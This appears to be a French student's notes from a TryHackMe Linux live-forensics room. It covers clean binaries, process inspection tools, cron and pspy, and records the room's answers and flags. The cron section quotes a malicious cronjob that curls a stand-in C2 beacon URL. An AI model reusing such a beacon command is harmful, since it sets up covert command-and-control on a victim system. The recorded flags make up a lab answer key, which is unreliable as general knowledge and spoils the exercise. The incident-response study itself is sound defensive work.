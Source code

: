 
## Introduction
Dans une analyse à chaud (directement sur le système), il est important d'avoir les repertoires suivants "propre", pour être sur que les binaires ne soit pas compromis, et fournir de vraie preuve. 
 - `bin`
 - `sbin` 
 - `lib`
 - `lib64`

Pour ça il nous faut intégrer des binaires "propre", qui viennent d'une installation neuve. Voici comment les importer dans notre machine : 
```Bash
export PATH=/mnt/usb/bin:/mnt/usb/sbin
export LD_LIBRARY_PATH=/mnt/usb/lib:/mnt/usb/lib64
```

## Processus 
Un processus est un instance en cours d'exécution. Chaque processus possède un PID (Process ID) unique, cela permet au système de le gérer et de le suivre.

Les processus peuvent avoir une relation parent-enfant, le parent appel l'enfant. Ils seront "attaché" l'un à l'autre (nous pourrons voir quel est le parent du processus enfant, et quel processus à appeler le parent). 

Nous avons plusieurs utilitaire qui peuvent être utilisé pour voir les processus en cours d'exécution :

### PS
La commande `ps` nous donne cet output : 
![[Pasted image 20251006130135.png]]
Où : 
 - `PID` : Un identifiant unique pour chaque processus
 - `TTY` : Le terminal associé au processus
 - `TIME` : Temps utilisé par le processus 
 - `CMD` : Commande associé au processus

Il est également possible d'associé un utilisateur à la commande ps (pour voir quel processus est relié à quel utilisateur) : 
![[Pasted image 20251006130454.png]]

### LSOF
`LSOF` permet de voir les fichiers ouvert par les processus système, nous pouvons associé un PID à `lsof` pour voir quel fichier/commande à été ouvert/lancé avec le processus voulu. 

Exemple d'utilisation : 
```Bash
lsof -p <PID>
```


### PSTREE
Cet utilitaire nous permet de lister les processus sous forme d'arborescence, ce qui permet de voir rapidement les relations parent-enfant. 

Exemple d'utilisation : 
```Bash
pstree -s -p <PID>
```
 - `-s` : lister les processus parent
 - `-p` : donne le PID

### TOP
Le problème des outils ci-dessus est qu'ils sont statique, ce qui permet de voir dynamiquement (et surtout en direct) les processus en cours d'execution sur la machine. Il nous donne également un plus d'information par rapport à l'utilisation du CPU et de la MEMOIRE. 

Exemple d'utilisation : 
```Bash
top -d 5 -u <user> -c
```
 - `-d` : mise à jour dynamique toutes les 5 secondes
 - `-u` : définit un utilisateurs (pas obligatoire)
 - `-c` : donne le chemin complet des commande (avec le /bin/bash)

### Question THM
```txt 
Q : Which command lists all open files and the processes that opened them?

A : lsof
```

```txt
Q : Use `pstree` to list out the process hierarchies. What is the name of the `nc` processes parent?

A : abzkd83o4jakxld
```

## Cronjobs
Cron est un outil qui permet de lancé automatiquement des processus à des moments spécifique, soit sous forme de "boucle" (toutes les secondes, minutes, heures, jours, mois ...) soit à chaque redémarrage ... 

Le fichier principal de cron se situe dans `/etc/crontab` mais il existe un repertoire qui nous donne chaque tâche par utilisateur : `/var/spool/cron/crontabs` 

```txt
Voila la nomenclature du fichier cron
M | H | Jour du Mois | Mois | Jour de la Semaine | Commande

10  05        *          *            *           /home/bob/backup_tmp.sh

Dans cet exemple tout les jours à 5:10 la tâche Backup_tmp.sh se lancera
```

Toute les tâches effectué par cron sont logué dans `syslog` nous pouvons exécuter cette commande pour voir les log lié à cron : 
```Bash
sudo grep cron /var/log/syslog

# Pour voir les tâches lié à un utilisateur
sudo grep cron /var/log/syslog | grep -i '<utilisateur>'
```

### PSPY

Pspy est un outil open source permettant de surveiller en temps réel les processus Linux sans privilèges root. Il lit directement les données du système virtuel **/proc** pour afficher des informations comme les commandes exécutées, les PID, PPID, utilisateurs et horodatages.  
Utile pour l’énumération et la réponse à incident, il permet d’identifier les processus éphémères et de suivre l’exécution de tâches **cron**, offrant ainsi une meilleure visibilité sur l’activité du système.

Exemple d'utilisation : 
```Bash
pspy64
```


### Question THM
```
Q : Search around the system for suspicious **system-level** cronjob entries. What is the full URL of the C2 server?

$ cat /etc/crontab
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5 * * * * root /var/tmp/backup

$ cat /etc/cron.hourly/beacon
curl http://c2.intelligent-software.thm:8310/beacon

A : http://c2.intelligent-software.thm:8310/beacon
```

```
Q : List the **user-level** cronjobs in the system. What is the hidden flag in one of the scripts?

$ ls /var/spool/cron/crontabs/
bob  elijah  janice  root  ubuntu
$ cat /var/spool/cron/crontabs/elijah 
0 3 * * * /home/elijah/.flag.sh
$ cat /home/elijah/.flag.sh
THM{4682786cf2d92f01c4d30a2bbf4621f7}

A : THM{4682786cf2d92f01c4d30a2bbf4621f7}
```

```
Q : Use **pspy64** to monitor executions occurring through the system. What is the decoded flag value that is echoed every 15 seconds?

$ pspy64
2025/10/06 11:58:14 CMD: UID=0     PID=6370   | /bin/sh -c /bin/echo -e 'VEhNezg1MWE5ODE0NDVkYmZiOTQ4NWMzNzcxNTEwYTUzNTY4fQ==' 
2025/10/06 11:58:14 CMD: UID=0     PID=6371   | sleep 15 

A : THM{851a981445dbfb9485c3771510a53568}
```

```
Q : 

A : 
```